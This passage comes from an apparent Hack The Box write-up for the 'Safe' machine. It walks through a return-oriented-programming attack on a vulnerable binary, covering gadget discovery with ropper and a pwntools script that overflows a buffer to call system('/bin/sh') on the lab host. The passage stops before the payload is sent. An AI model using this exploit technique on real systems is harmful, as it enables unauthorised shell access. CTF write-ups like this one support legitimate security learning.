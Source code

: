 Checking the man page for `system`, I see that it takes a single parameter:

```
NAME
       system - execute a shell command

SYNOPSIS
       #include <stdlib.h>

       int system(const char *command);
```

The x86-64 calling convention for gcc compiled binaries is RDI, RSI, RDX, RCX for the first four function arguments. To control the binary called by system, I need to point RDI to the memory address of the `/bin/sh` string. I'll switch back to gdb / gef to build the exploit.

I'll put a breakpoint on the return instruction from the main function and check what the RDI register is pointing to:

![](/assets/images/htb-writeup-safe/ret1.png)

RDI has a null-value so it doesn't point to a memory location I control and therefore is useless at the moment.

Next, I'm gonna use `ropper -f myapp` to look for gadgets I can use to control registers:

![](/assets/images/htb-writeup-safe/ropper.png)

I'll use the gadget at `0x401206` to put the address of `system` into `r13`. I don't care about `r14` and `r15` so I can put any dummy values here. The trick to get the address of `/bin/sh` is in the `sym.test` function. The first instruction pushes `rbp` (which contains the address of `/bin/sh`) on the stack so it updates the `rsp` address. The `mov rdi, rsp` instruction in the fonction takes care of copying the address of `rsp` into `rdi`. At that point I'm all set and when the function jumps to `r13` it will execute `system` with `/bin/sh` as the parameter.

The final exploit looks like this:

```python
from pwn import *

p = remote("safe.htb", 1337)
#p = process("./myapp")

context(os="linux", arch="amd64")
context.log_level = "DEBUG"

JUNK = "A" * 112
JUNK += "/bin/sh\x00" # RBP

"""
ROP chain to populate r13 with system()'s address:

0x0000000000401206: pop r13; pop r14; pop r15; ret;

sym.test() -> Need to JMP to address of system at the end
 (fcn) sym.test 10
   sym.test ();
           0x00401152      55             push rbp
           0x00401153      4889e5         mov rbp, rsp
           0x00401156      4889e7         mov rdi, rsp
           0x00401159      41ffe5         jmp r13
"""

payload = JUNK + p64(0x0000000000401206)    # ROP chain gadget
payload += p64(0x401040)     # pop r13
payload += "BBBBBBBB"        # pop r14
payload += "CCCCCCCC"        # pop r15
```